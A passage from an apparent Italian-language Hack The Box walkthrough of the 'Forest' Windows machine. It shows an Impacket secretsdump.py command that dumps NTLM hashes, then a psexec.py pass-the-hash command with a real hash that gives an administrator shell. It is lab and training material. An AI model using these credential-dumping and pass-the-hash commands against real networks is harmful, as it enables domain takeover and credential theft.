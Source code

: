 Ora utilizzo lo script _secretsdump.py_ di [_Impacket_](https://github.com/fortra/impacket) per ottenere l'NTLM:

```bash
python secretsdump.py htb/naclapor@10.10.10.161
```

<p align="center">
  <img src="/Immagini/Windows-Box/Forest/forest-8.png"/>
</p>

Una volta ottenuto l'hash utilizzo lo script _psexec.py_ per ottenre una shell con privilegi administator:

```bash
python psexec.py administator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

<p align="center">
  <img src="/Immagini/Windows-Box/Forest/forest-9.png"/>
</p>

**Ottengo così il secondo flag!**

## Credits

 - [Sanaullah Aman Korai](https://sanaullahamankorai.medium.com/hackthebox-forest-walkthrough-2843a6386032)

